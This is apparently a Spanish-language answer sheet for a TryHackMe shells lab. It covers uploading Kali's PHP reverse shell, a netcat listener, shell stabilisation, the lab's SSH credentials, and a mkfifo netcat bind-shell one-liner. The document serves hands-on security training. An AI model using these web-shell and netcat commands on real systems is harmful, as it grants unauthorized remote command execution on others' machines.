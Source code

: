 Navigate to /usr/share/webshells/php/php-reverse-shell.php in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.

**RESPUESTA**

1. Copiar y editar:

   ```bash
   cd /usr/share/webshells/php/
   cp php-reverse-shell.php shell.php
   nano shell.php
   ```

   Cambiar `$ip` por la IP de `tun0` y `$port` por un puerto libre.
2. Listener:

   ```bash
   nc -lvnp <PUERTO>
   ```
3. Subir `shell.php` al servidor.
4. Ejecutar visitando su URL para iniciar la conexión inversa.
5. Estabilizar shell con `python3 -c 'import pty; pty.spawn("/bin/bash")'`, luego `export TERM=xterm`, `stty raw -echo; fg` y `reset`.
---
---
**PREGUNTA**

Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.

**RESPUESTA**

1. **Acceso SSH a la máquina Linux**

```bash
ssh shell@<IP_DEL_OBJETIVO>
# Password: TryH4ckM3!
```

Confirma conexión y acceso a shell.

---

2. **Bind shell con netcat en Linux (listener en la víctima):**

En la máquina víctima (Ubuntu):

```bash
mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

En la máquina atacante (local):

```bash
nc <IP_VICTIMA> 4444
```

Explicación: la víctima escucha en el puerto 4444, cuando el atacante se conecta, recibe una shell.

---
